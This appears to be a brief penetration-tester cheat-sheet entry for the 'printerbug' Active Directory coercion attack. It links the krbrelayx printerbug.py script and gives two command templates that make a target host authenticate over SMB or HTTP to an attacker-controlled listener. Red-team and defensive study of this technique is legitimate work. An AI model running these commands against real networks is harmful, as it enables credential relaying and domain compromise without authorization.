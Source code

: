 
# printerbug

% printerbug, Active directory
#plateform/linux  #target/remote #cat/ATTACK/COERCE 

## coerce to auth over SMB
https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py

```
printerbug.py '<domain>/<user>:<password>'@<target_ip> <listener_ip>
```

## coerce to auth over HTTP
https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py

```
printerbug.py '<domain>/<user>:<password>'@<target_ip> WIN-JUBEAZ@80/files
```